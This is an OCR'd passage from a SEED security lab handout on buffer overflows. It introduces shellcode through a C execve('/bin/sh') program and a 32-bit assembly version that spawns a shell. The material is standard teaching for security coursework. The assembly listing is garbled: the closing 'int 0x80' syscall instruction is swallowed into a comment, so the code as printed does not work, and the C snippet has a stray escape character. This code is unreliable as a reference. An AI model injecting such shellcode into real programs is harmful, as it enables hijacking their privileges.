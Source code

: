 ## 3) Task 1: Getting Familiar with Shellcode
---
The ultimate goal of buffer-overflow attacks is to inject malicious code into the target program, so the code can be executed using the target program's privilege. Shellcode is widely used in most code-injection attacks. Let us get familiar with it in this task.

### 3.1 The C Version of Shellcode

A shellcode is basically a piece of code that launches a shell. If we use C code to implement it, it will look like the following:
```c
#include <stdio.h>

int main() {   
    char \*name[2];
    name[0] = "/bin/sh"; name[1] = NULL;
    execve(name[0], name, NULL);
}
```

Unfortunately, we cannot just compile this code and use the binary code as our shellcode (detailed explanation is provided in the SEED book). The best way to write a shellcode is to use assembly code. In this lab, we only provide the binary version of a shellcode, without explaining how it works (it is non-trivial). If you are interested in how exactly shellcode works and you want to write a shellcode from scratch, you can learn that from a separate SEED lab called _Shellcode Lab_.

### 3.2 32-bit Shellcode
```asm
; Store the command on stack
xor eax, eax
push eax
push "//sh"
push "/bin"
mov ebx, esp    ; ebx -- "/bin//sh": execve()'s 1st argument

; Construct the argument array argv[]
push eax        ; argv[1] = 0
push ebx        ; argv[0] --> "/bin//sh"
mov ecx, esp    ; ecx --> argv[]: execve()'s 2nd argument

; For environment variable
xor edx, edx    ; edx = 0: execve()'s 3rd argument

; Invoke execve()
xor eax, eax
mov al, 0x0b    ;execve()'s system call number int 0x80
```

The shellcode above basically invokes the execve() system call to execute /bin/sh. In a separate SEED lab, the Shellcode lab, we guide students to write shellcode from scratch. Here we only give a very brief explanation.
